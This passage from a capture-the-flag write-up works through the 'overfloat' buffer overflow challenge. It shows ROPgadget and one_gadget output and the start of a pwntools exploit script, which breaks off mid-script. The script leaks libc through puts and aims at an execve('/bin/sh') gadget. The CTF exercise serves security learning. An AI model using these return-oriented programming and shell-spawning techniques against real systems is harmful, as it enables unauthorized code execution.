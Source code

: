 ```
$	python ROPgadget.py --binary overfloat | grep "pop rdi"
0x0000000000400a83 : pop rdi ; ret
```

Also for the loop around address, I just tried the start of main and it worked. After we get the libc infoleak we can just subtract the offset of puts from it to get the libc base. The only part that remains is the onegadget. I just tried the first one and it worked (I decided to go with guess and check instead of checking the conditions when the gadget would be executed):

```
$	one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
```

With that we have everything we need to build our exploit. Since all of our inputs are interpreted as floats, we have to jump through a few hoops in order to get our inputs correct:

```
from pwn import *
import struct

# Establish values for the rop chain
putsPlt = 0x400690
putsGot = 0x602020
popRdi = 0x400a83

startMain = 0x400993
oneShot = 0x4f2c5

# Some helper functions to help with the float input
# These were made by qw3rty01
pf = lambda x: struct.pack('f', x)
uf = lambda x: struct.unpack('f', x)[0]

# Establish the target, and the libc file
target = remote("challenges.fbctf.com", 1341)
#target = process('./overfloat')
#gdb.attach(target)

# If for whatever reason you are usign a different libc file, just change it out here and it should work
libc = ELF('libc-2.27.so')

# A helper function to send input, made by a team mate
def sendVal(x):
    v1 = x & ((2**32) - 1)
    v2 = x >> 32
    target.sendline(str(uf(p32(v1))))
    target.sendline(str(uf(p32(v2))))

# Fill up the space between the start of our input and the return address
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Send the rop chain to print libc address of puts
# then loop around to the start of main
```